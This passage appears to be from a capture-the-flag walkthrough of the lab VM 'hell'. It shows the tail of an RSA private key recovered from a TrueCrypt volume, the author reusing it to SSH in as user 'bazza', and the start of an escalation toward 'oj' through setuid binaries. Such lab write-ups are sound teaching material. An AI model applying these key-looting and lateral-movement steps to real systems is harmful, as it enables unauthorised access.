 ```bash
icHPzFRt39KRHK1VLxXOD/jdKRN3Tk0odH1kNahOuFC2F5T+aqdlC/RAGwxnTDBe
AFPFlns83GaPYlIt05DZsdGftG7mITkNfUVS5AIyeedshU4OyPXu5bGgUgbtars4
GdttJ33Tm5hO+n3E93sW7XMKG4v4po+1Fu0OwNQNpaRo6gVqK7AZHNPxBRW7K4Zc
w2d0EXehAoGBAOQgtqb5QVyhiCdT53xjZTMHH74ApWRpsoLtu/LaZnQV0v/dzEIv
jei58v/PusXsSwOQeb4p2obOReQFbYG48vCiywwMbeOeqH2d69HYatHmxPXngKS3
6trus/pHuDJosFw1qhgVo9ao0o8IH6cveHidmwvzKfiphgM3yCXF9jyxAoGBAN6L
awHXmHQCsCq//UbHbfuaBScJOpaagKP1BIskl5RDaQ/U/DzSpxju0ldedX7HYVFW
Rk6NQQ6QiXIC/5D7Xj+tcR2EFI+Tt9xp6dE/UlxpUL1h9QCBfmdw0CT9WSwJEGF7
R+D18trKcb/NkYdJV8ZpaT00rLzyBx5MY/FZbYY/AoGBALrCwWXfR5BjOckgmrGt
2cq1uVnew4h6M8eWgzklbZz5xPzuAuvobKAro3GkCb9BXIQ1gkWZlCqqsnMjsmvy
EwnH7L0Xa9teJ4h3gfkQ2Rqwd2ztstanLyE/LJ7omjbCmCdVU8RV6wSwv3iTaP6B
EXqFZMqarzDA8FKwFy49bAJxAoGBALkXBYG7uW1LSw/TLCjw9zVaTUzBLTxS9gjn
YMcFQRir1Da5sqw3m4huIP1Pb7NoyjTm54SvkNs3NUlg2wPPPP0DGOAumRctCa9F
W5WP78UyRlesoCOyj9oihsss9zxbsYcSDJ86j6iO1Xpr08zMIDfCNigUplJjja4S
ZNE3ypLrAoGAbp+vBcqQRfnXWfmcdnHYFbwgWbokPSe2fScajWiyvcg4/6gL1e50
rpO3RTOREUD02pBbyG4LDFv7x/5niqASL0tS8/0xWDBDj5QmD9UTmMd5hsMbj8Lw
qJA0ErZEjIE9+jXYLbsTsB8tRTsqMqBfCCovHXAjy0h5B6j500PfImM=
-----END RSA PRIVATE KEY-----
george@hell:/media/truecrypt1$
```

So, a rsa private key. A wild shot in the dark sais this is the private key for one of the other users as per the `/etc/passwd`. I saved the key to a file on my Kali Linux box and attempted to SSH in as `bazza`, specifying the private key to use:

```bash
root@kali:~# ssh bazza@192.168.56.102 -i truecrypt_id_rsa
Linux hell 3.2.0-4-486 #1 Debian 3.2.57-3+deb7u2 i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jul 21 18:52:50 2014 from 192.168.56.1
$ id
uid=1004(bazza) gid=1004(bazza) groups=1004(bazza)
$
```

## becoming oj
`bazza` had 2 interesting files in hes home directory:

```bash
bazza@hell:~$ ls -lh
total 20K
-rw-r--r-- 1 root root        109 Jul  6 18:32 barrebas.txt
-r-xr-sr-x 1 oj   developers 6.1K Jul  6 18:39 part1
-r-sr-xr-x 1 oj   oj         5.2K Jul  6 18:34 part2
```
